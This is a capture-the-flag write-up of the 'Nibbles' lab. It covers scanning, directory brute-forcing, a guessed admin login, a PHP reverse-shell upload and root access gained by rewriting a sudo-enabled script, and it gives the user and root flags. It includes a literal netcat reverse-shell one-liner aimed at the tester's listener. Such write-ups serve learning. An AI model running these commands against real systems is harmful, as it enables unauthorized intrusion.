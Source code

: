 ## Nibbles
*Easy*

Began with port scanning using rustscan.

![](images/nibbles-scan1.png)

![](images/nibbles-scan2.png)

Opened the webpage.

![](images/nibble-web1.png)

Checked the source code.

![](images/nibbles-web2.png)

So I went to /nibbleblog

![](images/nibbles-web3.png)

I then used gobuster.

![](images/nibbles-gob.png)

I opened /admin, but didn't find anything interesting. Then I tried /content. Playing around a little I found /content/private/users.xml. Also the /README file had some version information.

![](images/nibbles-web4.png)

![](images/nibbles-web5.png)

There was a login page at /admin.php

![](images/nibbles-web6.png)

Tried using common credentials like admin:admin but didn;t work. With some guessing tried admin:nibbles and got logged in.

![](images/nibbles-web7.png)

Not knowing what to do, I used searchsploit.

![](images/nibbles-search.png)

So there must be some option to upload a file. Looking around, I found file upload in the plugins tab at My Image.

![](images/nibbles-upload.png)

I uploaded a php reverse shell. Then I opened /content/private/plugins/my_image/image.php and found a shell waiting for me at the listener.

![](images/nibbles-shell.png)

Thus I got the user flag.

![](images/nibbles-user.png)

User flag  **1ccddd6b3afe711a191c2df9ad8b6a1d**

Also notice personal.zip. On unzipping it I found monitor.sh. Searching for how to become root, I tried sudo -l

![](images/nibbles-sudo.png)

So if we rewrite this shell script and execute it, we can become root.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 4444 >/tmp/f
```
![](images/nibbles-payload.png)

When you run monitor.sh as ./monitor.sh I got the reverse shell as nibbler. But when used the complete path with sudo, I got the shell as root.

![](images/nibbles-root.png)

Root flag  **f6c1d67b29933657abf8d65ee1689f31**